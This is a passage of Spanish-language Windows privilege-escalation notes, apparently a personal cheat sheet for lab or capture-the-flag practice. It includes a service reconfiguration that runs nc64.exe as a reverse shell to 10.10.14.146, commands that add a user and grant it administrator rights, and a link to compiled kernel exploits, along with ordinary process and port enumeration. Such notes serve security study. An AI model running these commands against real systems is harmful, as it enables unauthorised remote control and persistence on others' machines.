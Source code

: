 Para configurar un servicio ( no quiere decir que lo detengas o inicies)

```
sc.exe config VMTools binPath="C:\Windows\Temp\privesc\nc64.exe -e cmd.exe 10.10.14.146 443"
```

Para iniciar o parar un servicio

```
sc.exe stop VMTools
sc.exe start VMTools
```

## Exploits de windows

Una pagina interesante que tiene exploits de windows compilados.

> https://github.com/SecWiki/windows-kernel-exploits/tree/master


## Ver procesos (2 metodos)

El primer metodo es con powershell

```
Get-Process
```
El segundo metodo es por cmd

```
tasklist /V
```

## Añadir usuarios en windows

Para añadir un usuerio

```
net user masa password /add
```

## Puertos abiertos

```
netstat -ano
netstat -nat

```

## Agregar a un usuario al grupo de Administrators

```
net localgroup Administrators  s4vitar /add
```

## Revisar todos los Grupos
